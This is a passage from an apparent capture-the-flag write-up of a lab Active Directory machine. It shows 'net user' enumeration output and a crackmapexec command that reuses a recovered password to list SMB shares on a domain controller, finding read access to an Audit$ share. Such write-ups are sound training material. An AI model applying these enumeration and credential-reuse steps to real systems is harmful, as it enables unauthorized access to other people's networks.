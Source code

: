 ```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
	- net users :
		```bash
net users
net user s.smith
net user r.thompson

---OUTPUT-USERS---
User accounts for \\

-------------------------------------------------------------------------------
a.turnbull               administrator            arksvc
b.hanson                 BackupSvc                CascGuest
d.burman                 e.crowe                  i.croft
j.allen                  j.goodhand               j.wakefield
krbtgt                   r.thompson               s.hickson
s.smith                  util
The command completed with one or more errors.

---OUTPUT-SMITH---
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
Home directory
Last logon                   4/23/2025 3:14:41 PM

Logon hours allowed          All

Local Group Memberships      *Audit Share          *IT
                             *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.

```
	- We see s.smith is in a group Audit Share. There was an SMB share which thompson couldn't access a share called Audit. Also if we check thompson's group memberships, he is not part of this Audit Share group.
- We check if s.smith can access Audit share folder
	```bash
crackmapexec smb 10.10.10.182 -u 's.smith' -p 'sT333ve2' --shares     
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$          READ            
```